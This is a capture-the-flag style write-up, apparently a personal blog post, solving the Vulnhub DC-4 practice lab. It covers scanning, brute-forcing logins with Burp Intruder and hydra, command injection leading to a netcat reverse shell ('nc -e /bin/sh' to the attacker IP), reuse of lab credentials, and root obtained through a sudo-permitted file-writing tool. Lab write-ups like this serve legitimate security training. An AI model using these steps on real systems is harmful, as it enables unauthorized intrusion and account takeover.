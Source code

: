 ```yaml
---
layout: PostSimple
date: 2019-11-18
title:     "Vulnhub - DC 4"
tags: ['easy','hydra','intruder']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/1.1.png)
We are going to pwn DC 4 by DCAU7 from Vulnhub


## Description
>DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
Unlike the previous DC releases, this one is designed primarily for  beginners/intermediates. There is only one flag, but technically,  multiple entry points and just like last time, no clues.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.


Download Link: <https://www.vulnhub.com/entry/dc-4,313/>

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.8
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/26 19:35:19 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/26 19:35:20 Finished
===============================================================
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/1.png)

It looks like login Page 
So i tried some normal sql injection but none worked so lets try bruteforce
We can use Burp Intruder for that

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/2.png)

Attack type : Cluster Bomb

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/3.png)

Now in payload , load wordlist and start attack!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/4.png)

This one gives different length it might be the password <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/5.png)

And yes I logged in.
After login I got a page Command.php<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/6.png)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/7.png)

## Getting Shell

It looks like , it executes system commands.
So I intercept the command with burp and got a reverse shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/8.png)

> nc -e /bin/sh 10.0.2.18 1234 


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/9.png)

We got a Shell!!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/10.png)

So while searching for anything usefull i found ``old-passwords.bak``

Since i found it in jim directory, lets bruteforce with ``jim``

## Getting User Jim

Lets start bruteforcing the ssh port using hydra

> hydra - a very fast network logon cracker which supports many different services

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/11.png)

we found the password is ``jim:jibril04``

Found some users too

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/12.png)

## Getting User Charles

While Checking jim directory there is ``mbox``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/13.png)

Since it looks like mail we check ``/var/mail``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/14.png)

It gives password for ``charles`` I su to charles

## Privilege Escalation

``sudo -l`` shows we can run ``teehee`` with root permission

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/15.png)

It looks like we can overwrite any file so i created new user with root permission without password!

Got ROOT !!

``Flag``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/16.png)






